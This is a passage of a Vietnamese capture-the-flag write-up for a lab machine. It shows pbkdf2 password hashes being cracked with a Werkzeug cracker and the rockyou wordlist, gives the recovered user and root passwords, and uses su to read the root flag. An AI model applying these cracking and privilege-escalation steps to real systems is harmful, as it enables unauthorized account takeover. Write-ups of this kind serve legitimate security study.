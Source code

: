 Sau khi xem file database đó thì thấy được 3 cái hash mật khẩu được dùng `pbkdf2`:

<img width="1862" height="399" alt="image" src="https://github.com/user-attachments/assets/3e0a7d3a-8aa6-4b54-8812-f45df83bc715" />

Do dùng hashcat với john không crack được (tôi stuck ở việc format lại hash), thế nên tôi search công cụ khác và tìm được [Werkzeug Cracker](https://github.com/AnataarXVI/Werkzeug-Cracker):

<img width="1297" height="640" alt="image" src="https://github.com/user-attachments/assets/f646a363-6711-4a3b-9149-7cc1695158d4" />

Sử dụng công cụ để crack được mật khẩu của `shirohige` là:

```
❯ python3 werkzeug_cracker.py -w ~/wordlist/rockyou.txt -p ~/hashcat/target.txt
Cracking pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed |                                | 122/14445388
Password found: estrella
```

<img width="1337" height="868" alt="image" src="https://github.com/user-attachments/assets/ac7ddbf8-e3ad-4147-aca9-9f01db8728f8" />

Tìm được mật khẩu của `root` là `12**24nzC!r0c%q12`

Dùng mật khẩu đó thì leo được quyền root và thực thi các lệnh dưới quyền root:

```
shirohige@instant:~$ su -
Password: 
root@instant:~# cat /root/root.txt 
7abd488d8df3c5d47d95775b76d4f22e
```
